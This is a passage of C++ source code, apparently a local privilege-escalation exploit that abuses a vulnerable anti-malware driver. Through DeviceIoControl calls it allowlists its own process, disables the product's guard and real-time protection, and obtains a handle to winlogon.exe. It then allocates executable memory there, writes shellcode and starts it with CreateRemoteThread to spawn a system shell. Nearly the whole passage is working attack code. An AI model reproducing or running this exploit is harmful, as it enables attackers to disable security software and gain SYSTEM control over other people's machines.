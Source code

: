 ```c++
	{
		printf("[-] Error - Faild To Add Process To Allowlist", GetLastError());
		return -1;
	}
	printf("[+] Added Process To Allowlist\n");

	// Disabling ZAM Guard And Real-Time Protection
	disbleZAM = DeviceIoControl(hDevice, 0x80002064, NULL, sizeof(exploitPID), NULL, 0, NULL, NULL);
	disbleRealTime = DeviceIoControl(hDevice, 0x80002090, NULL, sizeof(exploitPID), NULL, 0, NULL, NULL);
	if (!disbleZAM || !disbleRealTime)
	{
		printf("[-] Faild To Disable ZAM Guard Or RealTime Protection \n");
		return -1;
	}
	printf("[+] Disabled ZAM Guard And Real Time Protection 0x%p 0x%p \n", disbleZAM, disbleRealTime);

	// Getting The WinLogon PID
	winlogonPID = GetProcessPIDByName("winlogon.exe");
	if (!winlogonPID)
	{
		printf("[-] Error - Unable To Get winlogon.exe PID \n", GetLastError());
	}
	printf("[+] Got Winlogon.exe PID 0x%p \n", winlogonPID);

	success = DeviceIoControl(hDevice, 0x8000204c, &winlogonPID, sizeof(DWORD), &hWinlogon, sizeof(DWORD), NULL, NULL);
	if (!success)
	{
		printf("[+] \n", GetLastError());
	}
	printf("[+] Obtained Winlogon.exe HANDLE 0x%p \n", hWinlogon);

	// Loading ShellCode In Winlogon.exe By Allocating Memory In WinLogon.exe Using VirtuallAllocEx()
	destMem = VirtualAllocEx(hWinlogon, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	if (!destMem)
	{
		printf("[-] Error - Unable Allocated Memory In Winlogon.exe \n", GetLastError());
		return -1;
	}
	printf("[+] Allocated Memory In Winlogn.exe Process 0x%p \n", destMem);

	// Writing ShellCode Within WinLogon.exe Process Memeory
	success = WriteProcessMemory(hWinlogon, destMem, &shellcode, sizeof(shellcode), &written);
	if ((DWORD)success == INVALID_FILE_ATTRIBUTES)
	{
		printf("[-] Faild To Write ShellCode In Winlogon.exe \n", GetLastError());
		return -1;
	}	
	printf("[+] Loaded ShellCode In Winlogon.exe 0x%p 0x%s 0x \n", destMem);

	// Finally Spawing System Shell By Using CreateRemoteThread() Function
	success = CreateRemoteThread(hWinlogon, NULL, 0, (LPTHREAD_START_ROUTINE)destMem, NULL, 0, NULL);
	if (!success)
	{
		printf("[-] Errror - Test");
		return -1;
	}
```